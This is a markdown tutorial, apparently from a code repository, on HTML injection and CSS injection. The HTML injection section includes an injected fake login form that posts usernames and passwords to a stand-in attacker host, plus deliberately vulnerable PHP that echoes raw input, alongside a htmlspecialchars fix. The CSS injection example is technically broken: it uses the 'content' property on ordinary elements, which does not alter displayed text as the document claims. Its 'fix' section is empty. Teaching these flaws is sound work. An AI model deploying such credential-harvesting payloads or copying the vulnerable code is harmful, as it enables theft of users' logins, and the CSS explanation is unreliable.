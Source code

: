 # Vulnerabilities

## htmli

##### description  
HTML Injection (HTMLi) is a vulnerability that occurs when an attacker is able to inject HTML code into a web page by exploiting a weakness in the input validation process. This can happen, for example, if a web application does not properly validate user input or if it allows users to submit data that includes HTML tags that can be executed on the page.  
  
Let's say there is a vulnerable web page that allows users to submit comments, which are then displayed on the page without proper validation. An attacker could submit a comment that includes a ```<form>``` tag that is used to collect sensitive information from users, such as their login credentials.  

##### example  
Here is an example of what the injected HTML code might look like:  
```html
<p>Thank you for visiting our website. Please login to continue:</p>
<form method="post" action="http://attacker.com/steal">
  <label>Username:</label>
  <input type="text" name="username"><br>
  <label>Password:</label>
  <input type="password" name="password"><br>
  <input type="submit" value="Login">
</form>
```

In this example, the attacker has injected a ```<form>``` tag that looks like a legitimate login form. The form is set up to submit the entered username and password to the attacker's website (http://attacker.com/steal) when the user clicks the "Login" button.  

When the user views the page and enters their login credentials, they will unknowingly submit them to the attacker's website instead of the legitimate website. The attacker can then use the stolen credentials to access the victim's account and carry out further attacks.  

##### code of vulnerability
Example of vulnerable code:  
```php
<?php
  $comment = $_POST['comment'];
  echo "<p>You entered the following comment:</p>";
  echo "<p>$comment</p>";
?>
```
In this code, the value of the ```$_POST['comment']``` variable is directly printed onto the page without being properly validated or filtered. This means that an attacker can inject any HTML code they want into the page by submitting a comment that includes HTML tags.  
  
##### fix 
To fix this vulnerability, we need to properly validate and filter the user input before printing it onto the page. Here's an example of how we can do this:  
```php
<?php
  $comment = $_POST['comment'];
  $filtered_comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
  echo "<p>You entered the following comment:</p>";
  echo "<p>$filtered_comment</p>";
?>
```

In this updated code, we use the ```htmlspecialchars``` function to filter out any HTML tags and special characters that could be used to inject malicious code. The ```ENT_QUOTES``` flag is used to ensure that both single and double quotes are properly escaped, and the ```'UTF-8'``` parameter specifies the character encoding to use. This helps prevent HTML injection and other types of code injection attacks.

## cssi

##### description  
CSSI or CSS Injection is a type of attack that involves injecting malicious CSS code into a website or web application. CSS is responsible for the layout and styling of a website. By injecting malicious CSS code, an attacker can modify the appearance and behavior of a website, potentially compromising the security and privacy of users.  

Let's say there's a website that allows users to submit comments on articles. The website displays the comments in a section below the article, with each comment being represented by an HTML element.  
  
##### example
Here is an example of the webpage:
```html
<div class="comment">
  <p class="username">Username</p>
  <p class="message">Comment message</p>
</div>
```

##### code of vulnerability
An attacker could use CSS injection to modify the appearance of the comments section by injecting malicious CSS code into the comment submission form. For example, they could inject the following CSS code:
```css
.comment {
  display: none;
}

/* The following rule will only target the attacker's comment */
.comment:last-child {
  display: block;
}

.comment:last-child .username {
  content: "Hacker";
}

.comment:last-child .message {
  content: attr(data-comment);
}
```

This code would hide all comments on the page, except for the attacker's comment, which would be displayed with a modified username and message. The message would be set using the ```"data-comment"``` attribute of the comment element, which would be populated with the user's input. In this way, the attacker could inject arbitrary comments into the website and potentially trick users into clicking on malicious links or divulging personal information.

To prevent CSS injection attacks like this, web developers should implement input validation and sanitization techniques to prevent untrusted data from being processed and displayed on the website. Additionally, website owners should educate their users on safe browsing practices and encourage them to report suspicious behavior.  
  
##### fix
